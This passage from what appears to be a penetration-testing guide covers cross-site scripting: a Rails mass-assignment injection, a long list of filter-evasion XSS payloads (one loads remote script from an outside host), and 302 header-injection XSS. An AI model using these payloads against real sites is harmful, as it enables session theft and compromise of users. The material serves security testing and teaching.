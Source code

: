 Due to **RoR mass assignment** quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields (onfocus) can be added inside the tag.\
Form example ([from this report](https://hackerone.com/reports/709336)), if you send the payload:

```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```

The pair "Key","Value" will be echoed back like this:

```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```

Then, the onfocus attribute will be inserted and XSS occurs.

### Special combinations

```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```

### XSS with header injection in a 302 response

If you find that you can **inject headers in a 302 Redirect response** you could try to **make the browser execute arbitrary JavaScript**. This is **not trivial** as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.

